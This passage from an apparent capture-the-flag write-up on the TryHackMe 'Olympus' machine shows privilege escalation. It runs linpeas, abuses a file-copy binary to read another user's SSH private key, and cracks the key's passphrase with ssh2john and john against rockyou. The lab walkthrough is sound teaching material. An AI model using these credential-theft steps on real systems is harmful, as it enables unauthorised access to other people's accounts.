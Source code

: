 ![](gitbook/cybersecurity/images/Pasted%20image%2020250501141935.png)

Let's use `linpeas`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501142701.png)

We got a binary called `cputils`, let's use it and check what it does:

```
www-data@olympus:/tmp$ cputils
  ____ ____        _   _ _
 / ___|  _ \ _   _| |_(_) |___
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/

Enter the Name of Source File: .

Enter the Name of Target File: .

Error Occurred!
```

Seems like it simply copies files, let's copy `zeus` `id_rsa`:

```
www-data@olympus:/tmp$ cputils
  ____ ____        _   _ _
 / ___|  _ \ _   _| |_(_) |___
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/

Enter the Name of Source File: /home/zeus/.ssh/id_rsa

Enter the Name of Target File: id_rsa

File copied successfully
```

There we go, we got `id_rsa`, we can now go into ssh as `zeus`:

```
ssh zeus@olympus.thm -i id_rsa
Enter passphrase for key 'id_rsa':
```

Maybe not, let's crack the passphrase using john:

```
ssh2john id_rsa > id_rsa.hash

john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt

snowflake
```

